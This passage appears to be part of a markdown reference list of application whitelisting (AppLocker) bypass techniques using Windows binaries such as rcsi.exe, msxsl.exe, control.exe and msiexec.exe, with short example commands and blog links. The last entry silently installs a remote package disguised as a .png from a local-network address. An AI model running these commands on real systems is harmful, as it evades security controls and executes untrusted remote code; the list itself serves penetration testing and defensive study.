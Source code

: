 Requires admin: ?

Links:  
https://enigma0x3.net/2016/11/17/bypassing-application-whitelisting-by-using-dnx-exe/



## 18. rcsi.exe

rcsi.exe bypass.csx

Requires admin: ?

Links:  
https://enigma0x3.net/2016/11/21/bypassing-application-whitelisting-by-using-rcsi-exe/



## 19. csi.exe

Missing example

Requires admin: ?

Links:  
https://web.archive.org/web/20161008143428/http://subt0x10.blogspot.com/2016/09/application-whitelisting-bypass-csiexe.html



## 20. CPL loading location manipulation

Control.exe

Requires admin: No

Links:  
https://pentestlab.blog/2017/05/24/applocker-bypass-control-panel/
https://www.contextis.com/resources/blog/applocker-bypass-registry-key-manipulation/



## 21. msxsl.exe

msxsl.exe customers.xml script.xsl

Requires admin: No

Links:  
https://pentestlab.blog/2017/07/06/applocker-bypass-msxsl/
https://gist.github.com/subTee/d9380299ff35738723cb44f230ab39a1



## 22. msiexec.exe

msiexec /quiet /i cmd.msi
msiexec /q /i http://192.168.100.3/tmp/cmd.png

